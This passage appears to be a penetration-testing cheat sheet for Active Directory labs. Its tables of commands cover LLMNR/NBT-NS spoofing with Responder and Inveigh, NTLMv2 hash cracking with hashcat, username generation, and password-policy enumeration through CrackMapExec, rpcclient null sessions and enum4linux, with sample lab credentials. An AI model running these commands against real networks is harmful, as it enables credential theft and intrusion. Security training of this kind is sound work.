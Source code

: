 | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `responder -h`                                                                                                                                                                                                | Used to display the usage instructions and various options available in `Responder` from a Linux-based host.                                                             |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt`                                                                                                                                              | Uses `hashcat` to crack `NTLMv2` (`-m`) hashes that were captured by responder and saved in a file (`frond_ntlmv2`). The cracking is done based on a specified wordlist. |
| `Import-Module .\Inveigh.ps1`                                                                                                                                                                                 | Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`.                                                                             |
| `(Get-Command Invoke-Inveigh).Parameters`                                                                                                                                                                     | Used to output many of the options & functionality available with `Invoke-Inveigh`. Peformed from a Windows-based host.                                                  |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`                                                                                                                                                     | Starts `Inveigh` on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file.                                                           |
| `.\Inveigh.exe`                                                                                                                                                                                               | Starts the `C#` implementation of `Inveigh` from a Windows-based host.                                                                                                   |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey \|foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host.                                                                                                              |

## Password Spraying & Password Policies

| Command                                                                                                                              | Description                                                                                                                                                                                                                                          |
| ------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `#!/bin/bash for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}} do echo $x; done`                                 | Bash script used to generate `16,079,616` possible username combinations from a Linux-based host.                                                                                                                                                    |
| `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol`                                                                  | Uses `CrackMapExec`and valid credentials (`avazquez:Password123`) to enumerate the password policy (`--pass-pol`) from a Linux-based host.                                                                                                           |
| `rpcclient -U "" -N 172.16.5.5`                                                                                                      | Uses `rpcclient` to discover information about the domain through `SMB NULL` sessions. Performed from a Linux-based host.                                                                                                                            |
| `rpcclient $> querydominfo`                                                                                                          | Uses `rpcclient` to enumerate the password policy in a target Windows domain from a Linux-based host.                                                                                                                                                |
| `enum4linux -P 172.16.5.5`                                                                                                           | Uses `enum4linux` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host.                                                                                                                                        |